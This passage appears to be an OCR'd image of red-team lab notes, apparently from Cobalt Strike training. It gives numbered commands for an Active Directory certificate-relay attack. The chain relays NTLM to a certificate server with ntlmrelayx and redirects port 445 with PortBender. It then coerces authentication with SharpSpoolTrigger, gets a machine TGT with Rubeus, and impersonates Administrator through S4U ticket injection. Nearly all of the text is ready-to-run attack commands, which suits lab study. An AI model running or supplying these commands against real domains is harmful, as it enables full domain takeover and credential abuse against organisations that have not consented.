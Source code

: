 # 3. Execute NTLMRelayx to target the certificate server endpoint
# Find the IP of the CA (DA and CA are both same in lab).
beacon> powerpick Get-IPAddress -Identity dc-2
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://<CA-ip>/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

# 4. Setup reverse port forwarding (System shell)
beacon> rportfwd 8445 127.0.0.1 445
beacon> rportfwd stop 8445

# 5. Upload PortBender driver and load its cna file (System shell)
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
# To kill portbender , Kill the job
beacon> jobs
beacon> jobkill <JID>

# 6. Use PrintSpool attack to force WEB (unconstrained) server to authenticate with wkstn 2 (Domain Sesion)
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe <Unconstrained-Machine-IP> <Current-Machine-IP>
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102

# 7. Use the Base64 encoded machine certificate obtained to get TGT of machine account
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WEB$ /certificate:MIIM7w[...]ECAggA /nowrap

# 8. Use the TGT ticket obtained for S4U attack to get a service ticket TGS.
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/web.dev.cyberbotic.io /nowrap /user:WEB$ /ticket:doIFuj[...]lDLklP

# 9. Inject the Service Ticket by creating a new sacrificial token
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:Administrator /password:FakePass /ticket:doIFyD[...]MuaW8=tok
